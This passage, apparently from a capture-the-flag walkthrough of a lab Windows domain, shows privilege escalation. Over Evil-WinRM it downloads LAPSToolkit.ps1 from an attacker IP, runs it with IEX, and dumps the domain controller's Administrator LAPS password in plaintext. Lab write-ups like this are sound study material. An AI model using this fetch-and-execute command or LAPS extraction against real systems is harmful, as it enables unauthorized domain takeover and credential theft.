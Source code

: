 So we should now be able to read the "Administrator"'s password using LAPS.

## Reading LAPS Password

```
*Evil-WinRM* PS C:\Users\nikk37\Documents> (new-object system.net.webclient).downloadstring('http://10.10.14.6/tools/LAPSToolkit.ps1') | IEX
*Evil-WinRM* PS C:\Users\nikk37\Documents> Get-LAPSComputers

ComputerName    Password       Expiration
------------    --------       ----------
DC.streamIO.htb BO4CU03Xt5!(c1 09/28/2022 15:33:39
```

Administrator can login using WinRM:

![picture 61](/assets/images/c0d013a12f36b10eed87fce25f4262c3e1154c925718857d4f8d8a93955582cb.png)  

Game over!